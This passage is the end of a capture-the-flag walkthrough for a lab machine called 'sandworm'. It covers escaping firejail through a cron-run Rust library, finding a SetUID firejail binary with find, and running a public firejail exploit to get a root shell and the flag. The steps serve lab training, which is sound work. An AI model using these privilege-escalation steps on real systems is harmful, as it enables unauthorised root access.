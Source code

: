 ```rust
    let timestamp = now.format("%Y-%m-%d %H:%M:%S").to_string();
    let log_message = format!("[{}] - User: {}, Query: {}, Justification: {}\n", timestamp, user, query, justification);

    let mut file = match OpenOptions::new().append(true).create(true).open("/opt/tipnet/access.log") {
        Ok(file) => file,
        Err(e) => {
            println!("Error opening log file: {}", e);
            return;
        }
    };

    if let Err(e) = file.write_all(log_message.as_bytes()) {
        println!("Error writing to log file: {}", e);
    }
}
```

Compile the library with `cargo build` and once the cronjob is executed, you will have shell as `atlas` outside of firejail.

Looking at the `id` of atlas, you can see the `jailer` group which gives us access to run the `firejail` binary:
```vim
atlas@sandworm:~$ find / -group jailer -perm -4000 -exec ls -ld {} \; 2>/dev/null
-rwsr-x--- 1 root jailer 1777952 Nov 29  2022 /usr/local/bin/firejail
```

Looking for firejail exploits, we can find the following [SetUID firejail exploit](https://gist.github.com/GugSaas/9fb3e59b3226e8073b3f8692859f8d25) (You can read more about the exploit in this blog post here: https://www.openwall.com/lists/oss-security/2022/06/08/10)

```bash
atlas@sandworm:~$ chmod +x exploit.py
atlas@sandworm:~$ python3 exploit.py 
You can now run 'firejail --join=142388' in another terminal to obtain a shell where 'sudo su -' should grant you a root shell.
```

We can start a new session, join the firejail container and then run `su root` (because `sudo` doesn't seem to work)

Root flag can be found in `/root/root.txt`
